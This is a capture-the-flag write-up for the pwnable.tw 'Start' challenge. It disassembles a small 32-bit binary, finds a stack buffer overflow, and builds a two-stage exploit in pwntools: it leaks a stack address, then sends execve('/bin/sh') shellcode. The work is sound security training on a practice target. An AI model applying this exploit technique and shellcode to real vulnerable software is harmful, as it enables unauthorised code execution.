








# pwnable.tw - Start

Origin challenge link: https://pwnable.tw/challenge/

You can also download challenge file from my repo: [start.zip](start.zip)

There will be 1 file in zip:

- start

Download the file and let's start!

# 1. Find bug

First, we will use `file` to check for basic infomation:

```
$ file start
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```

This is a 32-bit file without being stripped. Next, we will use `checksec` to check the security of challenge file:

```
$ checksec start
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

We can see that none of them are on, nice! So let's fire up gdb and see how it works. First, the program doesn't sub esp but it will push instead:

```
   0x0804806e <+14>:	push   0x3a465443
   0x08048073 <+19>:	push   0x20656874
   0x08048078 <+24>:	push   0x20747261
   0x0804807d <+29>:	push   0x74732073
   0x08048082 <+34>:	push   0x2774654c
```

After pushing those string, program will print out the pushed string `Let's start the CTF:`:

```
   0x08048087 <+39>:	mov    ecx,esp        # String to be print out
   0x08048089 <+41>:	mov    dl,0x14        # Number of bytes will print
   0x0804808b <+43>:	mov    bl,0x1         # stdout
   0x0804808d <+45>:	mov    al,0x4         # syscall write
   0x0804808f <+47>:	int    0x80
```

Then, it will read in the data with number of byte is longer than the string above. The input string will overwrite the pushed string `Let's start the CTF:` on stack:

```
   0x08048091 <+49>:	xor    ebx,ebx        # stdin
   0x08048093 <+51>:	mov    dl,0x3c        # Number of byte read
   0x08048095 <+53>:	mov    al,0x3         # syscall read
   0x08048097 <+55>:	int    0x80
```

At the epilouge, it just add esp 0x14 to restore stack and return:

```
   0x08048099 <+57>:	add    esp,0x14
   0x0804809c <+60>:	ret
```

Input up to 0x3c but just add 0x14 show us that it's a **Buffer Overflow**:



And that's all we can find. Let's move on next part: Brainstorming!

# 2. Brainstorming

For these challenges, we usually `objdump` the binary because it may contain some useful function. After looking at `objdump`, I find out we have nothing else. So our next idea is to use ROP. 

Why we need to use ROP while we can input our shellcode? And with NX is off, our shellcode will be executed, is it right? Yes it's right. But the shellcode can be executed via a pointer point to our shellcode, not executed our shellcode it self. So our goal is to find out the pointer which point to our shellcode, then pass it to eip and our shellcode will be executed.

- Summary:

  1. Leak address

  2. Get shell

# 3. Exploit

### Stage 1: Leak address

So let's check ROP to see what we have:



Nothing's interesting except the highlighted ROP, it will help us print out 0x14 bytes of data on esp as you can see `mov ecx, esp`. When in GDB, we can also see that there will be a lot of stack address:



So leaking one of them will help us get the pointer point to our shellcode. And that ROP gadget is at `_start+38`, which means after that print out, it will get input from us again. So our first payload will look like this:

```
payload1 = b'A'*20                   # Padding to eip
payload1 += p32(0x08048086)          # ROP gadget
```

Running that first payload and we will get leak stack address, also we are prompted to input again



So we will write a script and take that address, then calculate the address that we will input the second time:

When we check in GDB after `int 0x80` of syscall write, we know that the leaked address is at `$esp + 0x8`:



When we are prompted to input the second time, we will just input string of `cyclic(0x14)` in to check at the second `ret`, where is our shellcode (string of `cyclic(0x14)`):



We can see that ecx contains the begining of our shellcode. With the leaked address, we will calculate the offset then the address of the begining of shellcode, then we pass it to eip. Offset can be calculate as 

```
offset = <Leak address> - <Begining of shellcode address>
offset = 0xff9e19e0 - 0xff9e19dc       # offset = 4
```

That's nice! We get everything we need. Let's move to stage 2.

### Stage 2: Get shell

Now we have address point to our shellcode, we just simply input our shellcode at the second input. But before we continue, we need to write string `/bin/sh\x00` somewhere and then move the pointer point to that string to ebx to execute execve.

The ideal place is after eip. When it `ret`, it will pop the address of our shellcode eip and the stack will add 0x4, which esp now contain pointer point to our string `/bin/sh\x00`. So in shellcode, we will make it move address of esp after second ret (contains string `/bin/sh\x00`) to ebx.

```
stack_leak = u32(p.recv(4))

payload2 = asm(''.join([
	'mov al, 0xb\n',
	'mov ebx, esp\n',
	'xor ecx, ecx\n', 
	'xor edx, edx\n',
	'int 0x80\n' 
	]), os='linux', bits=32)
payload2 = payload2.ljust(20, b'\x00')
payload2 += p32(stack_leak-4)
payload2 += b'/bin/sh\x00'
```

Running it will be like this (address of stack will be change):



So that's all and we get the shell. Full code [here](solve.py)

# 4. Get flag

